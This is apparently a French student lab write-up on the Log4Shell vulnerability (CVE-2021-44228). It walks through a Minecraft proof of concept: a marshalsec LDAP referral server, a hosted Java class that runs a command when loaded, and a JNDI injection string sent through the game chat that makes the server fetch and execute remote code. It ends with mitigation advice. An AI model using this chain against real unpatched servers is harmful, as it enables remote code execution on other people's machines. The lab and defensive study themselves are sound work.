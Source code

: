 # Veille: Minecraft Log4SHELL (faille log4j).

![log4shell](assets/log4shell.png)

Dans ce cours il nous a été demandé de mettre en place un lab afin d'exploiter une CVE de niveau 7 minimum puis de trouver un moyen de mitigation de la faille.  

Notre groupe a donc choisi la CVE Log4shell de criticité de niveau 10. Ce niveau de criticité a été établit par le Common Vulnerability Scoring System (CVSS). (1)  

## Historique de la vulnérabilité  

Log4shell est une vulnérabilité basée sur la librairie java intitulée "`Log4j`" que l'on retrouve dans de nombreuses application permettant la gestion des logs.  
Cette vulnérabilité a tout d'abord été signalée de manière privée à Apache le 24 novembre 2021.  
Le 9 décembre 2021, Log4Shell a été publiquement divulgué et a reçu un correctif initial avec la version 2.15.0 d’Apache Log4j.  


## Fonctionnement

![fonctionnement](assets/func.png)


Log4Shell est une vulnérabilité d’injection Java Naming and Directory Interface (JNDI), et qui peut permettre l'exécution de code à distance (RCE).  
Le principe est simple. Sur un système infecté, un attaquant peut exécuter du code malveillant et récupérer des informations ou faire en sorte que le code exécuté fasse tout et n'importe quoi. De fait, cette RCE a la particularité de pouvoir effectuer des SYSCALLS (appels systèmes via le kernel) et donc avoir l'accès à l'ensemble de la machine victime.  

La faille a un fonctionnement plutôt pernicieux, qui est clairement une injection. L'attaquant n'a qu'à écrire son payload à un endroit qu'il saura loggé (par exemple le chat minecraft : tout ce qui est dit est loggé, donc enregistré et "analysé" par log4j.)  

Une fois son payload envoyé, la faille va s'executer si elle n'a pas été patchée, et récupérera donc du code malveillant pour execution depuis un serveur LDAP. Mais détaillons ce fonctionnement en dessous.  

## Exploit

Nous allons donc détailler les étapes afin de reproduire une preuve de concept dans un environnement Minecraft.  

Tout d'abord nous avons besoin de:  

- Java Development Kit (JDK) 8  
- Serveur Minecraft vulnérable (ici, 1.8.x) : récupéré [sur ce dépôt](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit)
- Un serveur HTTP pour récupérer la class malveillante

### I- On commence par configurer le serveur Minecraft :

La première étape est bien évidemment de setup le serveur minecraft. 
Rien de plus simple, quelques commandes suffisent.

```bash
sudo apt install openjdk-8-jdk
git clone https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
cd Minecraft-Log4j-Exploit/server
java -jar server.jar
```

![serveur actif (oui c'est Windows alors que je donne des commandes linux...)](assets/server.png)

### II- Préparer le serveur LDAP malveillant :

Heureusement, le travail nous a été plus ou moins mâché pour le LDAP : on utilisera donc le travail de mbechler.  
On clone le dépôt git suivant : [marshalsec](https://github.com/mbechler/marshalsec)  
Puis On compile le projet :  

```bash
git clone https://github.com/mbechler/marshalsec
cd marshalsec  
mvn clean package -DskipTests
```

### III- Payload malveillant
     
Avoir un serveur vulnérable c'est bien, pouvoir y envoyer un payload c'est mieux.  
On va donc démarrer un serveur HTTP tout simple sur lequel notre class malveillante sera hébergée.  
Pour ça, python suffit amplement (avec http.server) :  

```py
python3 http.server
```

Dans le dossier contenant notre classe .java.

D'ailleurs cette classe la voilà : concrètement, lors de son activation, elle va simplement ouvrir un terminal sur notre kali.

`
```java
public class Log4jRCE_kali {
  static {
    try {
      java.lang.Runtime.getRuntime().exec("qterminal").waitFor();
    }
    catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```

### IV - Lancement des serveurs

Une fois tout configuré, il ne nous reste plus qu'à lancer les serveurs puis profiter.

Héberger notre charge utile Java sur un serveur web accessible publiquement : c'est fait  

Il faut maintenant lancer le serveur LDAP en spécifiant l'URL du payload :  
     
```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://le-serveur.com/#Exploit
```  

![Ldap Malveillant](assets/ldap.png)

### V - Exploiter la vulnérabilité :

Dans le client Minecraft, On se connecte au serveur vulnérable.  
Dans le chat du jeu, on envoie la charge utile suivante :  
     
```java
${jndi:ldap://votre-serveur.com:1389/Exploit}  
```

Si l'exploitation est réussie, le code malveillant hébergé sera exécuté sur le serveur Minecraft.  
En l'occurence, un terminal a bien été ouvert : 

![NewTerm](assets/term.png)


## Mitigation   

Pour protéger un serveur contre cette vulnérabilité, il suffit de mettre à jour la bibliothèque Log4j vers la version 2.16.0 ou supérieure. Si une mise à jour immédiate n'est pas possible, On peut aussi ajouter l'option suivante aux paramètres JVM lors du démarrage du serveur :  

`Dlog4j2.formatMsgNoLookups=true`  

## Bilan  

Nous avons pu voir au cours de la réalisation de ce TP que la CVE-2021-44228 appelé log4shell est très puissante et de ce fait très dangereuse. A l'appuie de ces propos nous avons le score de la CVE qui est égal à 10 soit le score le plus élevé sur les normes CVSS.  

De plus, au delà d'être une RCE, il s'agit d'une RCE possédant les droits les plus haut car gagnant l'accès au kernel.  
Une vulnérabilité de ce genre est pour le moins... dérangeante.  

La facilité déconcertante avec laquelle nous avons mis un lab en place, mené des tests et rédigé un rapport prouve bien qu'il ne s'agit même pas d'une faille nécessitant des compétences particulièrement élevée pour l'exploiter. Ce qui, pour une faille de criticité 10 est très ennuyeux, car "n'importe qui" peut décider de mener une attaque, et potentiellement porter des préjudices non négligeables.


## Sources utilisées 

https://www.trendmicro.com/fr_fr/what-is/apache-log4j-vulnerability.html
https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
https://medium.com/@hackingvarangian/log4shell-vulnerability-part-1-minecraft-poc-ef770e5800de
https://github.com/mbechler/marshalsec

## Crédits images : 

- log4shell: secura (https://secura.com)
- fonctionnement: stormshield (https://stormshield.com)

## Notes : 

(1) : https://nvd.nist.gov/vuln/detail/cve-2021-44228

